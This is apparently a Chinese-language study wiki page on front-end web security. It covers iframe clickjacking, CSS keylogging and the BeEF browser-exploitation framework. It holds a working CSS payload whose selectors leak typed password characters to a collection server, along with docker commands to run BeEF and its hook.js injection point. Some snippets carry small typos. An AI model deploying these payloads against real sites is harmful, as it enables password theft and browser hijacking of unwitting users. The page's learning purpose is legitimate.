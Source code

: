 ```yaml
---
title: 02.前端安全
description: 前端安全
published: 1
date: 2023-06-09T10:16:50.691Z
tags: web, web safe
editor: markdown
dateCreated: 2023-04-19T17:18:42.012Z
---
```


<center>前端安全</center>

[toc]

## 前端安全

> 前端：html  css   javascript



#### 1. html

> `html`超文本标记语言  （光着身子的孩子）
>
> 网页基础，必备



##### 潜在漏洞

> 纯html基本没有漏洞：一个光着身子的小孩子能有什么坏的地方呢...

`iframe clickjack`

> iframe 点击劫持
>
> 设置iframe 透明度度1，点击网站也会进入内嵌框架内

```html
<style>
    iframe{
        opactity:0;
    }
</style>
<iframe src="https://www.baidu.com" frameborder="0"></iframe>
```



#### 2. css

> css: 层叠样式表    (装饰孩子，穿衣服裤子)
>
> 网页基础，必备



##### 潜在漏洞

> css也挺少的  （装饰也会带来问题）

`css-keyloggin` 键盘监控

地址：[keyloggin](https://gitee.com/caketi/CSS-Keylogging.git)

```js
// node.js

npm install 

npm run start 
```

```css
input[type="password"][value$=" "] { background-image: url("http://localhost:3000/+"); }
input[type="password"][value$="!"] { background-image: url("http://localhost:3000/%21"); }
input[type="password"][value$="\""] { background-image: url("http://localhost:3000/%22"); }
input[type="password"][value$="#"] { background-image: url("http://localhost:3000/%23"); }
input[type="password"][value$="$"] { background-image: url("http://localhost:3000/%24"); }
input[type="password"][value$="%"] { background-image: url("http://localhost:3000/%25"); }
input[type="password"][value$="&"] { background-image: url("http://localhost:3000/%26"); }
input[type="password"][value$="'"] { background-image: url("http://localhost:3000/%27"); }
input[type="password"][value$="("] { background-image: url("http://localhost:3000/%28"); }
input[type="password"][value$=")"] { background-image: url("http://localhost:3000/%29"); }
```



#### 3.javascript 

> `javascript`脚本编程语言     （实现网页复杂功能，让孩子**动起来**）
>
> 网页基础，必备    很重要的

```js
// 设置cookie
function setCookie(key,value){

    document.cookie = key + '=' +value;
}x
setCookie('goer','gocookie');
```



##### 潜在漏洞

> 纯javascript漏洞很多    一定要去好好学

> docker 搭beef，javascript写的木马

```shell
docker pull beefproject/beef # janes/beef
docker pull isaudits/beef # 下这个hub  默认密码和用户： beefuser/beefpass

docker run -d -p 3000:3000 janes/beef
```

```js
ip:端口/ui/panel 
ip+端口/hook.js //任何ip都行，只要能访问。
```

